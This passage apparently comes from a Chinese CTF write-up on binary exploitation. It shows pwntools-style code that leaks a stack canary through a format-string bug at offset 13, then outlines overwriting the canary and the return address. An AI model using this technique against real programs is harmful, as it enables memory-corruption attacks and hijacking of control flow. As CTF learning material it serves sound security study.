 [![](assets/1706146504-7f1a0b22f0cc40ff4b474e2483e6769a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121233836-24561a22-b873-1.png)  
找到偏移了，偏移为 13

```bash
sl('%13$p')
canary=int(r(18),16)
leak('canary ',canary)
```

这里格式化字符串接收不需要 u64 解包

[![](assets/1706146504-f07c1f1bf8b555d2dbd552ff6e0db587.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121233855-2f679864-b873-1.png)  
覆盖 canary 然后再覆盖返回地址就行
